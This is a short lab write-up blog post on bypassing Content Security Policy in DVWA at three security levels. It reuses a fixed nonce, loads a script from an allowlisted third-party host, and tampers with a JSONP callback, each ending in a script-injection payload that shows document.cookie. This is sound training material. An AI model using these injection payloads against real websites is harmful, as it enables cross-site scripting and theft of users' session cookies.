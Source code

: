 +++
date = '2025-10-16T14:48:02+07:00'
draft = false
title = 'DVWA CSP Bypass Low/Medium/High Security'
tags = ['DVWA']
description = 'Bypass CSP policy and inject our desired Javascript code.'

[cover]
  image = '/images/posts/dvwa-csp-bypass.jpg'
  alt = 'DVWA CSP Bypass'
  caption = 'DVWA CSP Bypass'
  relative = false
+++

## Description

-   **Vulnerability:** CSP Bypass
-   **Impact:** Bypass CSP policy and inject our desired Javascript code.

---

## LOW Security Level

This Security Level allow these scripts:

```php
$headerCSP = "Content-Security-Policy: script-src 'self' https://pastebin.com hastebin.com www.toptal.com example.com code.jquery.com https://ssl.google-analytics.com https://digi.ninja ;"; // allows js from self, pastebin.com, hastebin.com, jquery, digi.ninja, and google analytics.
```

As it allows `https://digi.ninja` so we can use `https://digi.ninja/dvwa/cookie.js`. Result:

![Guide image](/images/posts/dvwa-csp-bypass-1.png)

## MEDIUM Security Level

The CSP now is new

```php
$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";
```

It allows script with `nonce: TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=` so the payload is:

```html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">
    alert(document.cookie);
</script>
```

![Guide image](/images/posts/dvwa-csp-bypass-2.png)

## HIGH Security Level

This HIGH Level use another `jsonp.php` to execute the code and it use a `callback` query param to execute so we can use Burp Suite to intercept the request when click `Solve the sum`, change `?callback=solveSum` to `?callback=alert(document.cookie)`

In Burp Suite turn Intercept on:

![Guide image](/images/posts/dvwa-csp-bypass-3.png)

Result:

![Guide image](/images/posts/dvwa-csp-bypass-4.png)

## Resources

-   [Content Security Policy Reference](https://content-security-policy.com/)
-   [Mozilla Developer Network - CSP: script-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
-   [Mozilla Security Blog - CSP for the web we have](https://blog.mozilla.org/security/2014/10/04/csp-for-the-web-we-have/)
